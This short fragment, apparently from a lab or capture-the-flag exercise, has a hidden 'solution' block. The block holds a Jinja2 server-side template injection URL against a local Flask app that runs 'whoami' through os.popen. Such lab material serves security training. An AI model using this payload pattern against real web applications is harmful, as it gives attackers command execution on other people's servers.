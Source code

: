 #secret
<details>
  <summary>Click to reveal solution</summary>
http://127.0.0.1:5000/preview?user_text={{%20config.__class__.from_envvar.__globals__.os.popen(%27whoami%27).read()%20}}
</details>